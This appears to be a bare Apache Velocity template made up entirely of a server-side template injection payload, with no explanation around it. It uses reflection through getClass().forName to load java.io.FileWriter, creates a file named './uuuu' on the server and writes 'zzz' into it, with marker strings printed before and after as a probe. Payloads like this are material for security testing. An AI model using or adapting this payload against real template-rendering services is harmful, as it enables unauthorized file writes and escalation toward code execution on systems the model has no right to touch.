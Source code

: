 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b = $a.FileWriter("./uuuu"))
$b
#set ($c = $b.write("zzz"))
#set ($d = $b.flush())
#set ($e = $b.close())
$monkey
